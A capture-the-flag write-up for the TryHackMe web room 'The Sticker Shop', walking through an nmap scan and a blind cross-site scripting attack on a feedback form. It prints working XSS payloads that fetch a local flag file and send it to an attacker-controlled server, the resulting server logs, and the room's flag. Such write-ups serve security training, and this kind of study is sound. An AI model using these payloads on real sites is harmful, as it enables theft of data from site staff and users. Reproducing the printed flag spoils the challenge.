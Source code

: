 ## The Sticker Shop - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/thestickershop)

**IP: 10.10.156.4**

**Replace [YOUR-THM-IP] with your own machine IP assigned by TryHackMe.**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Web <br>

**Tools Used**: /<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🌐 Web Exploitation

- I run the Nmap scan just out of habit. We need to access the `http://target:8080/flag.txt` in order to beat the challenge.

  ```
  $ nmap -sC -sV -p- 10.10.156.4

  PORT     STATE SERVICE VERSION
  22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
  |   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
  |_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
  8080/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.8.10)
  |_http-title: Cat Sticker Shop
  |_http-server-header: Werkzeug/3.0.1 Python/3.8.10
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```
  
- So there's nothing on this static website except providing feedback and `401 UNAUTHORIZED` when you try to visit the flag location. This smells like XSS.

- Here, I tried multiple payloads and this one worked. Also, start a Python server so you can actually get a response since we are working with Blind XSS.

  ```
  </textarea><script>fetch('http://[YOUR-THM-IP]:80');</script>

  $ python3 -m http.server 80                                                          
  Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
  10.10.156.4 - - [09/Jun/2025 15:59:21] "GET / HTTP/1.1" 200 -
  ```
  
- Vulnerability confirmed! Target tried to download nothing from our server. Now, this took a while until I found a right payload. Googling and trying is the key, even AI wont be able to help you here.
  Keep the Python server running, paste this payload and you will get a flag on your server!

  ```
  </textarea><script>async function a() {const res1 = await fetch('http://127.0.0.1:8080/flag.txt');const b = await res1.text();const res2 = await fetch('http://[YOUR-THM-IP]:80?a=' + b);}a();</script>

  python3 -m http.server 80
  
  10.10.156.4 - - [09/Jun/2025 16:00:13] "GET /?a=THM{83789a69074f636f64a38879cfcabe8b62305ee6} HTTP/1.1" 200 -
  10.10.156.4 - - [09/Jun/2025 16:00:23] "GET /?a=THM{83789a69074f636f64a38879cfcabe8b62305ee6} HTTP/1.1" 200 -
  10.10.156.4 - - [09/Jun/2025 16:00:33] "GET /?a=THM{83789a69074f636f64a38879cfcabe8b62305ee6} HTTP/1.1" 200 -
  ```

- There is a another payload that will work as well. This one is much easier to craft since it doesn't require knowledge of asynchronous handling in JavaScript.

  ```
    '"><script>
    fetch('http://127.0.0.1:8080/flag.txt')
      .then(response => response.text())
      .then(data => {
        fetch('http://[YOUR-THM-IP]:80/?flag=' + encodeURIComponent(data));
      });
  </script>

  $ python3 -m http.server 80
  Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
  10.10.156.4 - - [09/Jun/2025 15:46:43] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
  10.10.156.4 - - [09/Jun/2025 15:46:53] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
  10.10.156.4 - - [09/Jun/2025 15:47:03] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
  10.10.156.4 - - [09/Jun/2025 15:47:13] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
  ```

- URL decode the flag and submit it.
  
---

## 🏁 Flags

- **Flag**: `THM{83789a69074f636f64a38879cfcabe8b62305ee6}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Finding the right payload.`

- What did I learn?
  `How to exploit blind XSS.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
